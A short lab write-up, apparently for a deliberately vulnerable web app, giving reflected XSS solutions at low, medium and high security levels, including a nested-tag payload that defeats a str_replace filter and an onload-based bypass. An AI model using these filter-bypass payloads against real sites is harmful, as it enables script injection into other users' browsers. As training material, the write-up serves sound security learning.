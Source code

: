 Solutions are similar to stored XSS attacks. But the reflected variant doesn't
store the code on the site, but outputs the results back. Usually done with search engines.

### Security level: LOW
* Solution: <script> alert(1) </script>

### Security level: MEDIUM:

* Solution: <s<script>cript>alert(1)</script>
* circumvented str_replace( '<script>', '')

### Security level: HIGH:

* Solution: <<meta>body onload=alert(1)>
